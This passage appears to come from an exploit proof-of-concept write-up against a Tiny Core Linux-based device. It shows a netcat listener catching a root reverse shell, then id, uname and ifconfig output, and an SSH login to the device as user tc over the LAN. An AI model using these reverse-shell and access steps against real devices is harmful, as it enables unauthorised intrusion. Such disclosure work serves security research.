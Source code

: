 ```
albinolobster@ubuntu:~$ nc -lvnp 1270
Listening on 0.0.0.0 1270
Connection received on 10.0.0.21 60579
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux box 3.16.6-tinycore #777 SMP Thu Oct 16 09:42:42 UTC 2014 i686 GNU/Linux
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:00:00:02:00:01  
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:173 errors:0 dropped:164 overruns:0 frame:0
          TX packets:14 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:9378 (9.1 KiB)  TX bytes:4788 (4.6 KiB)

eth1      Link encap:Ethernet  HWaddr 00:FC:BA:44:54:31  
          inet addr:192.168.1.17  Bcast:192.168.1.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:14 errors:0 dropped:0 overruns:0 frame:0
          TX packets:11 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1482 (1.4 KiB)  TX bytes:1269 (1.2 KiB)

eth2      Link encap:Ethernet  HWaddr 52:54:00:12:34:56  
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:14 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:4788 (4.6 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```


### SSH Access

Note that the SSH server will only be accessible via the LAN (unless a hole is punched through the firewall).

```
albinolobster@ubuntu:~/pinchme$ ssh tc@192.168.1.17
The authenticity of host '192.168.1.17 (192.168.1.17)' can't be established.
ECDSA key fingerprint is SHA256:LyH94hlaD6/GBxzoe/kyuvSWc5Yvs62t8VrYwWHo0FM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.17' (ECDSA) to the list of known hosts.
tc@192.168.1.17's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

tc@box:~$ id
uid=1001(tc) gid=50(staff) groups=50(staff)
tc@box:~$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:00:00:02:00:01  
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:332 errors:0 dropped:316 overruns:0 frame:0
          TX packets:32 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
```